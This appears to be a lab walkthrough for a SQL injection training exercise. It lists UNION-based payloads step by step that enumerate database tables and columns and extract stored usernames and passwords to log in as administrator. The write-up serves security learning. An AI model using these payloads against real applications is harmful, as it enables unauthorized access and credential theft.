 # Lab: SQL Injection Attack - Listing the Database Contents on Non-Oracle Databases

## Steps to Solve the Lab:

1. **Intercept the Request**  
   - Use Burp Suite to capture and modify the request that sets the product category filter.

2. **Determine the Number of Columns**  
   - Identify the number of columns returned by the query using:  
     ```sql
     '+UNION+SELECT+NULL,NULL--
     ```
   - Keep adding `NULL` values until the query executes without an error.

3. **Identify Columns Containing Text Data**  
   - Test which columns accept text by modifying the query:  
     ```sql
     '+UNION+SELECT+'abc','def'--
     ```
   - Ensure both columns accept string values.

4. **Retrieve the List of Tables**  
   - Use the following payload to retrieve the list of tables in the database:  
     ```sql
     '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
     ```
   - Identify the table that stores user credentials.

5. **Retrieve the List of Columns in the Users Table**  
   - Use the following payload (replacing the table name) to list the columns in the users table:  
     ```sql
     '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
     ```
   - Identify the columns that store usernames and passwords.

6. **Retrieve User Credentials**  
   - Use the following payload (replacing table and column names) to extract usernames and passwords:  
     ```sql
     '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
     ```
   - Locate the password for the `administrator` user.

7. **Login as Administrator**  
   - Use the extracted credentials to log in as the administrator.

## Expected Outcome:
- The usernames and passwords should be displayed in the response.
- The administrator's password can be used to log in successfully.
